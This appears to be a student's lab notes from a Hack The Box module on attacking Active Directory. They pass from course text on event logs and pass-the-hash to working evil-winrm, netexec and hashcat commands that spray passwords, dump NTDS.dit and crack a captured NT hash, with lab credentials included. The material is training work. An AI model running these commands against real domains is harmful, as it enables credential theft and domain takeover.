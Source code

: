 
#### Event Logs from the Attack

![Windows Event Viewer showing security logs with Event ID 4776 for credential validation and event details.](https://academy.hackthebox.com/storage/modules/147/events_dc.png)

It can be useful to know what might have been left behind by an attack. Knowing this can make our remediation recommendations more impactful and valuable for the client we are working with. On any Windows operating system, an admin can navigate to `Event Viewer` and view the Security events to see the exact actions that were logged. This can inform decisions to implement stricter security controls and assist in any potential investigation that might be involved following a breach.

Once we have discovered some credentials, we could proceed to try to gain remote access to the target domain controller and capture the NTDS.dit file.




## CRACKING hashes and gaining credentials

We can proceed with creating a text file with all of the NT hashes or we can copy and paste a specific hash into a terminal session and use hashcat -m 1000 to crack it. 

Although what happens if we are unsuccessful in cracking a hash?

## Pass-the-hash considerations

We can still use hashes to attempt to authenticate using a type of attack called pass the hash or (PtH) a PtH attack takes advantage of  the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work. However if the Domain is using Kererbos authentication which was designed to get rid of the PtH vulnerabilities in NTLM they may have NTLM disabled so this may not work in all domains. 
#### Pass-the-Hash with Evil-WinRM Example

Attacking Active Directory & NTDS.dit

```shell-session
JackTheWizard@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```





jmarston  lets fuzz this with netexec


```
nxc smb 10.129.202.85 -u jmarston -p fasttrack.txt
```

This took me too many wordlists.


I got a password

jmarston:P@ssword! 

so lets get NTDS easy

```
nxc smb 10.129.202.85 -u jmarston -p 'P@ssword!' --ntds
```


jstapleton

92fd67fd2f49d0e83744aa82363f021b


Lets crack her NT hash


hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b rockyou.txt
